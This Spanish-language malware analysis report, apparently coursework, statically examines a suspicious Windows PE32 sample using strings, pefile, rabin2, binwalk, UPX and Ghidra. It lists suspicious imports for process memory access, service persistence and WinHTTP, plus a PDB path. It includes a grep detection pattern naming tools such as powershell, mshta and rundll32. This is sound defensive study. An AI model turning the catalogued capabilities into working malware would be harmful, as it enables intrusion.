Para complementar el análisis estático se realizó una extracción de cadenas en formato `ASCII` y `UTF-16LE` mediante `strings`. El objetivo era identificar artefactos útiles como rutas internas, nombres de `DLLs`, `APIs` importadas, metadatos de versión, posibles IOCs, rutas de persistencia, dominios, `URLs` o direcciones `IP`.
```bash
strings -a malware.exe > strings_malware.txt
strings -a -el malware.exe > strings_utf16_malware.txt
```

**Obtenemos los ficheros:**
| Fichero                     | Tipo de extracción | Finalidad                                                                                          |
| --------------------------- | ------------------ | -------------------------------------------------------------------------------------------------- |
| [strings_malware.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/7-M9T7/utiles/strings_ascii.txt)       | ASCII              | Extracción general de cadenas visibles, imports, nombres de secciones, DLLs y posibles artefactos. |
| [strings_utf16_malware.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/7-M9T7/utiles/strings_utf16.txt) | UTF-16LE           | Extracción de cadenas Unicode, especialmente útiles en binarios Windows y recursos de versión.     |


**Los elementos más relevantes identificados son:**
| Categoría                       | Cadenas relevantes                                                                                           | Interpretación                                                                                                      |
| ------------------------------- | ------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------- |
| Secciones PE                    | `.text`, `.rdata`, `.data`, `.data3`, `.rsrc`, `.reloc`                                                      | Confirman la estructura interna del PE y coinciden con el análisis de cabeceras.                                    |
| Ruta PDB                        | `Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb`                                                    | Artefacto de compilación relevante para correlación y clustering de muestras.                                       |
| Imports de procesos/memoria     | `OpenProcess`, `ReadProcessMemory`, `VirtualAlloc`, `VirtualQueryEx`, `VirtualProtectEx`, `CreateThread`     | Indican capacidad de interacción con procesos, memoria y ejecución de hilos.                                        |
| Imports de persistencia/sistema | `CreateServiceW`, `StartServiceW`, `RegCreateKeyExW`, `RegSetValueExW`, `RegDeleteKeyW`                      | Sugieren posible interacción con servicios y Registro de Windows.                                                   |
| Imports de red                  | `WinHttpOpen`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpReadData`               | Indican capacidad de comunicación HTTP/HTTPS mediante WinHTTP.                                                      |
| Anti-debug / entorno            | `IsDebuggerPresent`, `GetTickCount`, `GetVersion`, `GetEnvironmentVariableW`, `GlobalMemoryStatus`           | Compatibles con comprobaciones del entorno, temporización o anti-análisis básico.                                   |
| Metadatos de versión            | `Advanced Task Scheduler 32-bit Edition`, `Doubtsoftware.com`, `Southsoftware.com`, `Bifscheduler_edmin.exe` | La muestra aparenta identificarse como software legítimo, aunque presenta inconsistencias en los campos de versión. |


En las cadenas extraídas no se observan dominios, URLs o direcciones `IP` explícitas. No obstante, la presencia de `APIs` de `WINHTTP.dll` mantiene la hipótesis de comunicación de red, que deberá validarse mediante referencias cruzadas en Ghidra o análisis dinámico.

En conclusión, la extracción de `strings` aporta varios indicadores útiles: una ruta `PDB` embebida, metadatos de versión sospechosos, imports asociados a servicios, Registro, procesos, memoria y comunicación `HTTP`. Estos elementos refuerzan las capacidades observadas previamente en el análisis de imports y capa.


# **3. Validación de la estructura PE**
Tras el triage estático inicial, se realiza una validación más detallada de la estructura `PE` de la muestra con el objetivo de comprobar la coherencia de sus cabeceras principales, secciones, punto de entrada, arquitectura, `timestamp` y niveles de entropía.

Para ello se empleó un `script` en Python basado en la librería `pefile`, que permite parsear la cabecera `PE` y extraer información relevante del `FILE_HEADER`, `OPTIONAL_HEADER` y tabla de secciones. Este análisis permite confirmar si el binario presenta una estructura `PE` válida y detectar posibles anomalías asociadas a packing, secciones sospechosas, diferencias entre tamaño virtual y tamaño en disco o entropías elevadas.

## **3.1 Cabeceras principales**

```bash
python3 - <<'PY'
import pefile
from datetime import datetime, timezone

pe = pefile.PE("malware.exe")

subsystems = {
    1: "Native",
    2: "Windows GUI",
    3: "Windows CUI / Console",
    7: "POSIX CUI",
    9: "Windows CE GUI",
    10: "EFI Application",
}

machines = {
    0x14c: "Intel 386 / x86",
    0x8664: "AMD64 / x64",
    0x1c0: "ARM",
    0xaa64: "ARM64",
}

print("[PE BASIC INFO]")
print("EntryPoint:", hex(pe.OPTIONAL_HEADER.AddressOfEntryPoint))
print("ImageBase:", hex(pe.OPTIONAL_HEADER.ImageBase))
print("Subsystem:", pe.OPTIONAL_HEADER.Subsystem, "-", subsystems.get(pe.OPTIONAL_HEADER.Subsystem, "Unknown"))
print("Machine:", hex(pe.FILE_HEADER.Machine), "-", machines.get(pe.FILE_HEADER.Machine, "Unknown"))
print("Sections:", pe.FILE_HEADER.NumberOfSections)

ts = pe.FILE_HEADER.TimeDateStamp
print("Timestamp raw:", hex(ts))
print("Timestamp UTC:", datetime.fromtimestamp(ts, timezone.utc))

print("\n[SECTIONS]")
for s in pe.sections:
    name = s.Name.decode(errors="ignore").rstrip("\x00")
    print(
        name.ljust(10),
        "VA:", hex(s.VirtualAddress),
        "VS:", hex(s.Misc_VirtualSize),
        "RawSize:", hex(s.SizeOfRawData),
        "Entropy:", round(s.get_entropy(), 2)
    )
PY
```

Obtenemos:
```bash
[PE BASIC INFO]
EntryPoint: 0x74e6
ImageBase: 0x400000
Subsystem: 2 - Windows GUI
Machine: 0x14c - Intel 386 / x86
Sections: 6
Timestamp raw: 0x56fb6c37
Timestamp UTC: 2016-03-30 06:03:35+00:00

[SECTIONS]
.text      VA: 0x1000 VS: 0xf116 RawSize: 0xf200 Entropy: 6.99
.rdata     VA: 0x11000 VS: 0x8686 RawSize: 0x8800 Entropy: 6.59
.data      VA: 0x1a000 VS: 0x441c RawSize: 0x3400 Entropy: 6.97
.data3     VA: 0x1f000 VS: 0x250 RawSize: 0x400 Entropy: ~~1~~.67
.rsrc      VA: 0x20000 VS: 0xb290 RawSize: 0xb400 Entropy: 4.13
.reloc     VA: 0x2c000 VS: 0x10ba RawSize: 0x1200 Entropy: 5.08
```

**A) Cabeceras principales:**
La muestra se identifica como un ejecutable `PE32` de Windows con arquitectura `x86`. El punto de entrada se encuentra en la `RVA 0x74e6,` con una imagen base preferida de carga en `0x400000`, valor habitual en ejecutables `PE` de `32 bits`.
| Campo               |                       Valor | Interpretación                                                                                              |
| ------------------- | --------------------------: | ----------------------------------------------------------------------------------------------------------- |
| Entry Point         |                    `0x74e6` | RVA donde comienza la ejecución del binario. Es un punto clave para iniciar el análisis en Ghidra o x32dbg. |
| ImageBase           |                  `0x400000` | Dirección base preferida de carga del ejecutable. Valor común en PE32.                                      |
| Subsystem           |           `2 - Windows GUI` | Aplicación gráfica de Windows, no orientada a consola.                                                      |
| Machine             |   `0x14c - Intel 386 / x86` | Binario de 32 bits para arquitectura Intel x86.                                                             |
| Número de secciones |                         `6` | La muestra contiene seis secciones PE.                                                                      |
| Timestamp raw       |                `0x56fb6c37` | Valor bruto del timestamp de compilación.                                                                   |
| Timestamp UTC       | `2016-03-30 06:03:35+00:00` | Fecha de compilación declarada en la cabecera PE. Debe tratarse con cautela porque puede ser manipulada.    |


La información obtenida es coherente con los resultados previos del triage: se trata de un ejecutable Windows `PE32`, de `32 bits`, con subsistema gráfico y arquitectura `x86`. Esto confirma que el análisis dinámico debe orientarse a un entorno de depuración de `32 bits`, preferiblemente con `x32dbg`.


**B) Secciones PE:** El binario contiene las siguientes secciones:
| Sección  |        VA | Virtual Size | Raw Size | Entropía | Interpretación                                                                              |
| -------- | --------: | -----------: | -------: | -------: | ------------------------------------------------------------------------------------------- |
| `.text`  |  `0x1000` |     `0xf116` | `0xf200` |   `6.99` | Sección de código. Entropía alta, cercana al umbral típico de posible packing u ofuscación. |
| `.rdata` | `0x11000` |     `0x8686` | `0x8800` |   `6.59` | Datos de sólo lectura, imports y constantes. Entropía moderadamente alta.                   |
| `.data`  | `0x1a000` |     `0x441c` | `0x3400` |   `6.97` | Datos inicializados. Entropía alta y `VirtualSize` superior a `RawSize`, aspecto a revisar. |
| `.data3` | `0x1f000` |      `0x250` |  `0x400` |   `1.67` | Sección pequeña y de baja entropía. No parece sospechosa por entropía.                      |
| `.rsrc`  | `0x20000` |     `0xb290` | `0xb400` |   `4.13` | Recursos del ejecutable. Entropía baja/media, compatible con recursos estándar.             |
| `.reloc` | `0x2c000` |     `0x10ba` | `0x1200` |   `5.08` | Tabla de relocalizaciones. Entropía normal.                                                 |

Las secciones más relevantes desde el punto de vista del análisis son `.text` y `.data`, ambas con entropías próximas a `7.0`. Estos valores no permiten afirmar por sí solos que el binario esté empaquetado, pero sí justifican una revisión más detallada de su contenido, especialmente de posibles rutinas de decodificación, datos ofuscados o estructuras comprimidas.

La sección `.data` presenta además un `VirtualSize` mayor que su `RawSize`, lo que puede indicar que parte de los datos se expanden o inicializan en memoria durante la ejecución. Este comportamiento no es necesariamente malicioso, pero resulta relevante en una muestra sospechosa.

Por otro lado, la sección `.rsrc` contiene recursos con entropía moderada, sin indicios claros de payload cifrado o comprimido únicamente a partir de este valor. La sección `.data3`, con entropía baja, tampoco muestra señales evidentes de packing.

**Conclusiones:**
- La estructura `PE` de la muestra es coherente y válida. El binario corresponde a un ejecutable PE``32 de Windows para arquitectura `x86`, con seis secciones y subsistema gráfico. No se observan anomalías estructurales graves en las cabeceras principales.
- Sin embargo, las entropías elevadas de `.text` y `.data`, junto con la presencia previa de capacidades de codificación mediante `XOR`, sugieren que estas secciones deben revisarse con especial atención en Ghidra para localizar posibles bloques ofuscados, rutinas de decodificación o datos transformados en tiempo de ejecución.


## **3.2 Secciones**

**A) pecheck:**  
Para profundizar en la estructura interna del ejecutable se utilizó `pecheck.py`, herramienta que permite extraer información detallada de la cabecera `PE`, secciones, directorios, imports, recursos, firma digital, `TLS` y `overlay`.
```bash
└─$ python3 pecheck.py malware.exe > pecheck_malware.txt
```

**Obtenemos el fichero: [pecheck_malware.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/7-M9T7/utiles/pecheck_malware.txt)**


El análisis general de pecheck.py confirma que la muestra tiene un tamaño de `162.816 bytes` y una entropía global de `6.304256`, valor moderadamente alto, aunque no suficiente por sí solo para afirmar que el binario esté empaquetado. Además, la herramienta calcula hashes criptográficos del fichero completo y entropía individual para cada sección.

La muestra contiene seis secciones PE:
```bash
.text
.rdata
.data
.data3
.rsrc
.reloc
```


**B) Rabin:**  
Para complementar la información obtenida con `pecheck.py`, se utilizó `rabin2 -S` con el objetivo de revisar la disposición física y virtual de las secciones, así como sus permisos de memoria:
```bash
└─$ rabin2 -S malware.exe                               
nth paddr         size vaddr         vsize perm flags      type name
――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000400  0xf200 0x00401000  0x10000 -r-x 0x60000020 ---- .text
1   0x0000f600  0x8800 0x00411000   0x9000 -r-- 0x40000040 ---- .rdata
2   0x00017e00  0x3400 0x0041a000   0x5000 -rw- 0xc0000040 ---- .data
3   0x0001b200   0x400 0x0041f000   0x1000 -r-- 0x40000040 ---- .data3
4   0x0001b600  0xb400 0x00420000   0xc000 -r-- 0x40000040 ---- .rsrc
5   0x00026a00  0x1200 0x0042c000   0x2000 -r-- 0x42000040 ---- .reloc
```

La salida confirma la presencia de seis secciones ``PE: `.text`, `.rdata`, `.data`, `.data3`, `.rsrc` y `.reloc`.

Desde el punto de vista de permisos, no se observan secciones con permisos simultáneos de escritura y ejecución (`RWX`), lo cual reduce la sospecha de una configuración abiertamente peligrosa en la tabla de secciones. La sección `.text` es la única marcada como ejecutable, algo esperable en un binario `PE` estándar.

La sección `.data` merece especial atención porque es escribible (`-rw-`) y presenta un tamaño virtual (`0x5000`) superior a su tamaño en disco (`0x3400`). Esto puede indicar que parte de su contenido se reserva o inicializa en memoria durante la ejecución. Unido a su entropía elevada observada previamente, esta sección debe revisarse en Ghidra para localizar posibles datos ofuscados, buffers de configuración o estructuras modificadas en tiempo de ejecución.

La sección `.rsrc` tiene un tamaño considerable (`0xb400` en disco y `0xc000` en memoria), por lo que también debe revisarse para comprobar si contiene únicamente recursos legítimos, como iconos y metadatos de versión, o si incluye datos adicionales embebidos.

En conjunto, la distribución de secciones es coherente con un `PE32` estándar. No se detectan permisos anómalos evidentes, pero las secciones `.text`, `.data` y `.rsrc `deben priorizarse en el análisis por su tamaño, permisos y entropía.


**C) objdump:**  
Como tercera comprobación se ejecutó `objdump -h malware.exe` para contrastar la tabla de secciones con los resultados obtenidos previamente mediante `pecheck.py` y `rabin2 -S`.

```bash
└─$ objdump -h malware.exe

malware.exe:     formato del fichero pei-i386

Secciones:
Idx Name          Size      VMA       LMA       File off  Algn
  0 .text         0000f116  00401000  00401000  00000400  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
  1 .rdata        00008686  00411000  00411000  0000f600  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  2 .data         00003400  0041a000  0041a000  00017e00  2**2
                  CONTENTS, ALLOC, LOAD, DATA
  3 .data3        00000250  0041f000  0041f000  0001b200  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  4 .rsrc         0000b290  00420000  00420000  0001b600  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  5 .reloc        000010ba  0042c000  0042c000  00026a00  2**2
                  CONTENTS, LOAD, READONLY, DATA
```

En conjunto, `objdump` no revela anomalías nuevas frente a `rabin2 -S` y `pecheck.py`. Su valor en este punto es validar que la estructura de secciones es coherente entre distintas herramientas y que no existen secciones ocultas o discrepancias evidentes en la tabla de secciones.


## **3.3 Data directories**
Para revisar los directorios de datos relacionados con la tabla de imports se ejecutó rabin2 con la opción `-i`, redirigiendo la salida al fichero `directories_malware.txt:`
```bash
└─$ rabin2 -i ~/Escritorio/muestras-malware/ENIIT/M9T7/malware.exe > directories_malware.txt
```

**Obtenemos el fichero: [directories_malware.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/7-M9T7/utiles/directories_malware.txt)**

El fichero generado contiene el listado de funciones importadas por la muestra, incluyendo su dirección virtual, tipo, librería asociada y nombre de la `API`. Aunque el nombre del apartado hace referencia a Data directories, esta salida concreta corresponde principalmente al `Import Directory` / `Import Address Table (IAT)`.

Entre las librerías importadas destacan:
| DLL                            | Funcionalidad asociada                                                       |
| ------------------------------ | ---------------------------------------------------------------------------- |
| `KERNEL32.dll`                 | Procesos, memoria, ficheros, sincronización, entorno y anti-análisis básico. |
| `ADVAPI32.dll`                 | Registro, servicios, tokens, privilegios y seguridad.                        |
| `WINHTTP.dll`                  | Comunicación HTTP/HTTPS.                                                     |
| `USER32.dll`                   | Interacción con ventanas y entorno gráfico.                                  |
| `SHELL32.dll` / `SHLWAPI.dll`  | Operaciones de sistema de archivos, rutas y claves de registro.              |
| `PSAPI.DLL`                    | Información de procesos, módulos y memoria.                                  |
| `WTSAPI32.dll` / `USERENV.dll` | Sesiones de usuario y bloques de entorno.                                    |
| `IPHLPAPI.DLL`                 | Información de red, como tabla de rutas IP.                                  |


<mark>La salida confirma imports relevantes como `CreateProcessW`, `OpenProcess`, `ReadProcessMemory`, `VirtualAlloc`, `VirtualProtectEx`, `CreateToolhelp32Snapshot`, `IsDebuggerPresent`, `GetTickCount`, `CreateMutexW`, `RegCreateKeyExW`, `RegSetValueExW`, `CreateServiceW`, StartS`e`rviceW, `CreateProcessAsUserW`, `WinHttpOpen`, `WinHttpConnect`, `WinHttpSendRequest` y `WinHttpReadData`.</mark>

<mark>En conjunto, esta información refuerza las capacidades ya observadas en apartados anteriores: manipulación de procesos y memoria, interacción con el Registro de Windows, posible persistencia mediante servicios, comunicación `HTTP/HTTPS`, fingerprinting del entorno y comprobaciones anti-análisis básicas.</mark>


## **3.4 Firma digital y Rich header**
Para comprobar la presencia de firma digital se filtró la salida de `pecheck_malware.txt` mediante el siguiente comando:
```bash
└─$ sed -n '/^Signature:/,/^PEiD:/p' pecheck_malware.txt 
Signature:
 No signature

PEiD:
```
Esto indica que la muestra no contiene firma digital `Authenticode` embebida. Por tanto, no es posible asociar el binario a un editor verificado ni validar su integridad mediante una cadena de confianza de certificado.


```bash
└─$ grep -A20 -Ei "^Signature:|No signature|Signature size|Signature .* hash|pyasn1" pecheck_malware.txt 
Signature:
 No signature

PEiD:
Error: signature database missing
Entry point:
ep:          0x000074e6
ep address:  0x004074e6
Section:     .text
ep offset:   0x000068e6

TLS Callbacks:
 No TLS

Overlay:
 No overlay
```

La muestra no contiene firma digital Authenticode, por lo que no puede asociarse a un editor verificado. El punto de entrada se localiza en la sección `.text`, en la dirección virtual `0x004074e6`, lo que resulta coherente con un ejecutable `PE` estándar. No se identifican `TLS callbacks`, por lo que no hay evidencia de ejecución previa al `entry point` mediante este mecanismo. Tampoco se detecta `overlay`, reduciendo la probabilidad de payloads añadidos al final del fichero. La detección `PEiD` no pudo completarse debido a la ausencia de la base de firmas, por lo que no permite concluir si existe o no packing.


# **4. Deteccion de packing, ofuscacion y anomalias**
En este apartado vamos a revisar posibles indicios de empaquetado, ofuscación o estructuras anómalas dentro de la muestra. Para ello se tienen en cuenta distintos elementos del análisis estático: detección de packers, ubicación del punto de entrada, entropía de secciones, presencia de `TLS callbacks`, `overlay`, `imports` sospechosos y resultados de herramientas como `pecheck.py`, `FLOSS` y `capa`.

El objetivo no es confirmar una familia concreta, sino valorar si la muestra presenta señales compatibles con packing, cifrado, compresión, ofuscación de datos o técnicas destinadas a dificultar el análisis.


## **4.1 Deteccion de packers**
ara revisar una posible detección de packer o compilador mediante firmas, se filtró la sección `PEiD` del informe generado con `pecheck.py`:
```
└─$ grep -A10 -i "PEiD" pecheck_malware.txt 
PEiD:
Error: signature database missing
Entry point:
ep:          0x000074e6
ep address:  0x004074e6
Section:     .text
ep offset:   0x000068e6

TLS Callbacks:
 No TLS
```
La herramienta no pudo realizar la identificación mediante firmas `PEiD` porque falta la base de datos de firmas. Por tanto, este resultado no permite confirmar ni descartar la presencia de un packer. La ausencia de resultado se debe a una limitación del entorno de análisis, no necesariamente a la ausencia de empaquetado.

El punto de entrada se encuentra en la sección `.text`, concretamente en la dirección virtual `0x004074e6`. Esto es coherente con un ejecutable `PE` estándar, ya que la ejecución comienza dentro de la sección de código. No se observa, a partir de este dato, un salto evidente a una sección inusual como `.data`, `.rsrc` o una sección con nombre típico de packer.

Además, `pecheck.py` indica que la muestra no presenta `TLS callbacks`, por lo que no hay evidencia de ejecución previa al entry point mediante este mecanismo. Esto reduce la probabilidad de una técnica de evasión basada en `TLS`, aunque no descarta otras formas de inicialización u ofuscación.

En conclusión, la detección por `PEiD` no fue concluyente debido a la ausencia de la base de firmas. Sin embargo, la ubicación del `entry point` en `.text` y la ausencia de `TLS callbacks` no muestran indicios claros de packing agresivo en esta comprobación concreta. Aun así, deben valorarse otros indicadores, como la entropía elevada en `.text` y `.data,` y la rutina de codificación mediante `XOR` detectada previamente.


## **4.2 Entropia**
Para complementar la detección de posibles indicios de packing, compresión u ofuscación, se analizó la entropía de la muestra mediante `binwalk`. Debido a un problema con `numba`, fue necesario desactivar la compilación `JIT` mediante la variable `NUMBA_DISABLE_JIT=1`.
```bash
└─$ NUMBA_DISABLE_JIT=1 binwalk -E malware.exe

DECIMAL       HEXADECIMAL     ENTROPY
--------------------------------------------------------------------------------
0             0x0             Falling entropy edge (0.338801)
1024          0x400           Rising entropy edge (0.977238)
2048          0x800           Falling entropy edge (0.249378)
8192          0x2000          Rising entropy edge (0.971749)
9216          0x2400          Falling entropy edge (0.657877)
26624         0x6800          Falling entropy edge (0.810187)
62464         0xF400          Falling entropy edge (0.583709)
84992         0x14C00         Falling entropy edge (0.322738)
109568        0x1AC00         Falling entropy edge (0.689291)
```
Los valores mostrados por `binwalk -E` están normalizados entre `0` y `1`, donde valores cercanos a `1` indican alta aleatoriedad. En este caso se observan picos de entropía elevados en los offsets `0x400` y `0x2000`, con valores próximos a `0.97`. Estos puntos se encuentran dentro del área inicial del ejecutable y son compatibles con zonas de código o datos con alta densidad de bytes variables.

No obstante, esta salida no permite confirmar por sí sola que la muestra esté empaquetada. Para una interpretación más fiable, estos resultados deben correlacionarse con la entropía por secciones obtenida previamente, donde `.text` y .data presentaban valores cercanos a `7.0` sobre `8.0`. En conjunto, los datos sugieren la presencia de regiones con entropía elevada, pero no evidencian un packing agresivo de forma concluyente.


Como segunda comprobación de entropía se utilizó `Detect It Easy (DiE)`, revisando el mapa de entropía por regiones del binario. La herramienta muestra una entropía global de `6.30426` y clasifica la muestra como `no empaquetado (78%)`, lo que indica que no detecta un empaquetado claro a nivel global.  



No obstante, la conclusión global de `DiE` es que la muestra no parece estar empaquetada de forma evidente. Por tanto, los valores altos de entropía deben interpretarse como indicios de posible ofuscación parcial o datos transformados, pero no como prueba concluyente de packing.

En conjunto, la información de `DiE` coincide con los resultados previos de `binwalk`, `pefile` y `pecheck.py`: existen regiones con entropía elevada, especialmente en `.text` y `.data`, pero no hay evidencia suficiente para afirmar un empaquetado agresivo del binario.





## **4.3 UPX y desempaquetado controlado**
Para comprobar si la muestra estaba empaquetada con `UPX`, se realizó una copia del binario original y se ejecutaron pruebas de validación y desempaquetado controlado sobre dicha copia, evitando modificar la muestra principal:

```bash
└─$ cp malware.exe muestra_upx_test.exe 
                                                                                                                                                      

└─$ upx -t muestra_upx_test.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.4       Markus Oberhumer, Laszlo Molnar & John Reiser    May 9th 2024

upx: muestra_upx_test.exe: NotPackedException: not packed by UPX

Tested 0 files.


└─$ upx -d muestra_upx_test.exe -o muestra_unpacked.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.4       Markus Oberhumer, Laszlo Molnar & John Reiser    May 9th 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
upx: muestra_upx_test.exe: NotPackedException: not packed by UPX

Unpacked 0 files.
```

Estos resultados permiten concluir que la muestra no está empaquetada con `UPX`, al menos no con una cabecera o estructura reconocible por la versión utilizada de la herramienta. No se generó ningún fichero desempaquetado, ya que `UPX` no identificó la muestra como comprimida con este packer.

Por tanto, se descarta el uso de `UPX` estándar en esta muestra. No obstante, esta comprobación no permite excluir otros packers, empaquetadores modificados, compresión personalizada u ofuscación parcial, por lo que debe interpretarse junto con los resultados de entropía, capa, `FLOSS` y análisis de secciones.


## **4.4 Ofuscacion de cadenas**

**A) Aplicamos el plugin desofuscador para Ghidra:**
```
ghidra_universal_string_deobfuscator.py> Running...
[*] Program: malware.exe
[*] Output directory: /tmp/ghidra_universal_deobfuscator_v2_malware.exe
[*] Starting filtered multi-format deobfuscation...
[*] XOR enabled: False
[*] Scanning block: Headers 00400000 - 004003ff
[*] Scanning block: .text 00401000 - 004101ff
[*] Scanning block: .rdata 00411000 - 004197ff
[+] direct/ascii   00417720  Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb
[+] direct/ascii   00417e92  Module32NextW
[+] direct/ascii   00417ea2  GetFileSizeEx
[+] direct/ascii   00417eb2  OpenProcess
[+] direct/ascii   00417ec0  GetLogicalDrives
[+] direct/ascii   00417ed4  CreateDirectoryW
[+] direct/ascii   00417ee8  Module32FirstW
[+] direct/ascii   00417efa  FreeLibrary
[+] direct/ascii   00417f08  GetLocalTime
[+] direct/ascii   00417f18  ExitThread
[+] direct/ascii   00417f26  GetFileSize
...
...
[+] CSV written: /tmp/ghidra_universal_deobfuscator_v2_malware.exe/deobfuscator_results.csv
[+] Finished
[+] Results kept: 232
[+] Output directory: /tmp/ghidra_universal_deobfuscator_v2_malware.exe
ghidra_universal_string_deobfuscator.py> Finished!
capa_ghidra.py> Running...
```

Destacamos:
|  Dirección | String                                                    | Interés                                                                                                 |
| ---------: | --------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| `00417720` | `Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb` | **Muy interesante.** Ruta PDB. Sirve como artefacto de compilación / posible IOC / pista de build path. |


**B) XXX:**
```bash
└─$ strings -a malware.exe | head 
!This program cannot be run in DOS mode.
Rich
.text
`.rdata
@.data
.data3
@.rsrc
@.reloc
fzK\R
d|}j
```


```bash
└─$ strings -a -el malware.exe | head 
bm~fS8rspHK3faLw9]$3#)oU$bwPk9&
VSEf{YlAKutTCK{dA/%$rQc@
>)y;3@x3OreGHRzRI6]C
0x7f44db81
0x4ae6ada3
%i%u%i
%u%i%d
kernel32.dll
3681+111
VS_VERSION_INFO
```


**C) FLOSS:**


# **5. Busqueda de cadenas e IOCs**

```
└─$ strings -a -n 4 malware.exe | grep -Ei "http|https|www\.|\.exe|\.dll|cmd|powershell|wscript|
mshta|rundll32|regsvr32|download|url|kernel|loadlibrary|getprocaddress|virtualalloc|virtualp
rotect|createremotethread|writeprocessmemory|run|currentversion|appdata|temp|programdata|pub
lic"

...
...
...
ccc;
lllBlll
tttXttt
^^^![[[Reees43
1B1P1X1u1
2+232S2Y2
4>4r4
5!5)565a5g5
6 6/6@6R6Y6c6
7#7,7R7e7r7|7
8.8b8r8|8
9'9B9K9l9{9
:A:M:S:Z:
;&;0;6;;;
=$=&=+=7=7=:=<===@=B=N=R=R=\=\=c=l=r=t=v={=}=
>!>">%>(>*>+>5>9>=>B>D>I>U>Y>d>f>i>n>o>p>x>y>z>
?4?6?:?C?C?F?F?H?J?K?Q?T?V?X?e?f?g?i?r?v?w?z?}?~?~?
0#0$0%0&0(0)0.0.00000203080;0<0E0E0N0T0Z0Z0c0k0l0n0n0o0p0s0u0v0w0y0
1"1%1&1&1'1)1)1*1/171?1C1D1D1J1K1W1X1j1w1z1
6 6$6(6,6064686<6@6D6H6L6P6T6X6\6`6d6h6l6p6t6x6|6
7 7$7(7,7074787<7@7D7H7L7P7T7X7\7`7d7h7l7p7t7x7|7
8 8$8(8,8084888<8@8D8H8L8P8T8X8\8`8d8h8l8p8t8x8|8
9 9$9(9,9094989<9@9D9H9L9P9T9X9\9`9d9h9l9p9t9x9|9
: :$:(:,:0:4:8:<:@:D:H:L:P:T:X:\:`:d:h:l:p:t:x:|:
; ;$;(;,;0;4;8;<;@;D;H;L;P;T;X;\;`;d;h;l;p;t;x;|;
< <$<(<,<0<4<8<<<@<D<H<L<P<T<X<\<`<d<h<l<p<t<x<|<
= =$=(=,=0=4=8=<=@=D=H=L=P=T=X=\=`=d=h=l=p=t=x=|=
> >$>(>,>0>4>8><>@>D>H>L>P>T>X>\>`>d>h>l>p>t>x>|>
? ?$?(?,?0?4?8?<?@?D?H?L?P?T?X?\?`?d?h?l?p?t?x?|?
0 0$0(0,0004080<0@0D0H0L0P0T0X0\0`0d0h0l0p0t0x0|0
1 1$1(1,1014181<1@1D1H1L1P1T1X1\1`1d1h1l1p1t1x1|1
2 2$2(2,2024282<2@2D2H2L2P2T2X2\2`2d2h2l2p2t2x2|2
3 3$3(3,3034383<3@3D3H3L3P3T3X3\3`3d3h3l3p3t3x3|3
t7x7
@4H4P4X4
0 0$0(0,0004080<0@0D0H0L0P0T0X0\0`0d0h0l0p0t0x0|0
1 1$1(1,1014181<1@1D1H1L1P1T1X1\1`1d1h1l1p1t1x1|1
2 2$2(2,2024282<2@2D2H2L2
```

Lo relevante de esta búsqueda de strings es que no aparecen `IOCs` de red explícitos, pero sí muchos imports que apuntan a capacidades sensibles:
| Hallazgo                                       | Strings relevantes                                                                                                       | Interpretación                                                                                                                                 |
| ---------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------- |
| **Sin C2 explícito**                           | No se observan `http`, `https`, dominios claros ni IPs                                                                   | No hay infraestructura visible en strings. Si existe C2, puede estar cifrado, construido dinámicamente o descargado en ejecución.              |
| **Comunicación HTTP posible**                  | `WinHttpOpen`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpReceiveResponse`, `WinHttpReadData` | Aunque no hay URL visible, la muestra tiene capacidad de comunicación HTTP/HTTPS mediante WinHTTP.                                             |
| **Carga dinámica de APIs**                     | `LoadLibraryA`, `LoadLibraryW`, `LoadLibraryExA`, `LoadLibraryExW`, `GetProcAddress`                                     | Puede resolver funciones dinámicamente y dificultar el análisis estático.                                                                      |
| **Memoria / posible manipulación de procesos** | `VirtualAlloc`, `VirtualProtectEx`, `ReadProcessMemory`, `OpenProcess`, `OpenThread`                                     | Indica interacción con memoria y procesos. No se observa `WriteProcessMemory` ni `CreateRemoteThread`, así que no afirmaría inyección clásica. |
| **Anti-debug / anti-analysis**                 | `IsDebuggerPresent`, `GetTickCount`, `QueryPerformanceCounter`, `Sleep`                                                  | Compatible con comprobaciones básicas de debugger, temporización o evasión ligera.                                                             |
| **Persistencia / sistema**                     | `CreateServiceW`, `StartServiceW`, `OpenSCManagerW`, `RegCreateKeyExW`, `RegSetValueExW`, `RegDeleteKeyW`                | Capacidad de interactuar con servicios y Registro de Windows. Muy relevante para revisar persistencia.                                         |
| **Ejecución de procesos**                      | `CreateProcessW`, `CreateProcessAsUserW`                                                                                 | Puede lanzar procesos; `CreateProcessAsUserW` sugiere posible ejecución bajo otro contexto de usuario.                                         |
| **Rutas temporales / archivos**                | `GetTempPathW`, `GetTempFileNameW`, `CreateFileW`, `WriteFile`, `DeleteFileW`, `MoveFileExW`                             | Compatible con dropper, creación de ficheros temporales, staging o limpieza.                                                                   |
